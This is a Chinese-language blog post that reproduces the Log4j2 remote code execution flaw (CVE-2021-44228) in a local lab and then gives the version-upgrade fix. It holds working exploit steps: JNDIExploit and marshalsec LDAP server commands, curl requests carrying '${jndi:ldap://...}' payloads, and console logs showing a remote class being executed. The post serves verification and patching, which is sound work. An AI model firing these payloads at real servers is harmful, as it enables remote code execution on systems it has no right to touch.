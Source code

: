 ```yaml
---
layout: post
title: Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
categories: Java
description: Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
keywords: cve, log4j, log4j2, 漏洞
---
```


近期，大家都被这个**核弹级**漏洞搞疯了，各种紧急生产补丁的上，所以咱也来凑凑热闹

## 问题
这个漏洞到底有多严重？基本上看到`远程代码执行`，就是非常严重的漏洞，因为这代表攻击者，可以在被攻击者服务器上，执行任何想要的操作。

## 思考
怎么验证存在及修复了这个漏洞？

## 复现
### 基于JNDIExploit，搭建LDAP
- 参考：<https://github.com/Mr-xn/JNDIExploit-1>
- `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 127.0.0.1`

### 创建一个Web工程（模拟被攻击的系统，如果验证已有系统可跳过）
- 如：<https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228>
- 启动

### 见证奇迹的时刻
- 请求
```curl -d 'val=${jndi:ldap://127.0.0.1:1389/SkTest211213Before}' -d 'otherKey=otherVal' -X POST http://localhost:8081/demo/cve/y2021/s44228/log```
- JNDIExploit控制台输出结果（说明log4j2存在CVE-2021-44228漏洞）
```shell
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
```

## 解决
参考官方解决意见，升级版本到`2.15.0`，包括但不限于如下方式：
- SpringBoot项目
```xml
  <properties>
    <java.version>1.8</java.version>
    <log4j2.version>2.15.0</log4j2.version><!-- add this property to fix CVE-2021-44228 -->
  </properties>
```

## 回顾
### 原理
- log4j2在打印`${xxx}`内容时，会当命令执行

### 远程代码执行
#### 将漏洞文件放于某Web服务器中
- 如：将 <https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228/src/main/resources/static/Log4j2Rce.class> 文件放于某Web服务器中
- 或启动 <https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228> 工程

#### 通过marshalsec，搭建LDAP
- 参考：<https://github.com/mbechler/marshalsec>
- 命令（根据需要替换Web服务器url）：`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8081/#Log4j2Rce" 1389`

### 创建一个Web工程（模拟被攻击的系统，如果验证已有系统可跳过）
- 如：<https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228>
- 启动（如上面已启动，则无需再启动）

#### 见证奇迹的时刻
- 请求：
```curl -d 'val=${jndi:ldap://127.0.0.1:1389/Log4j2Rce}' -d 'otherKey=otherVal' -X POST http://localhost:8081/demo/cve/y2021/s44228/log```
- org.shaneking.demo.cve.y2021.s44228.web控制台输出结果（说明log4j2存在CVE-2021-44228漏洞）
```shell
2021-12-15 01:58:09.458  INFO 45940 --- [nio-8081-exec-2] o.s.w.s.DispatcherServlet                : Completed initialization in 16 ms
SkTest211213Before: will print when Log4j2Rce loaded in static.
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:09.795  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:10.332  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : RAW = ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:10.351  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : FMT = ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
```

## 附录
- 基于DREAD模型的漏洞等级计算：<https://www.secrss.com/articles/5566>
![](/images/posts/2021/12/db5608769f509557cb99ff7e464bd059.jpg)
- 安全漏洞如何评级：<https://www.zhihu.com/question/53669275>
![](/images/posts/2021/12/v2-de2ba8149eeac2cc442c1d3214f5f44f_1440w.jpg)
- 漏洞等级说明：<https://help.aliyun.com/document_detail/28388.html>
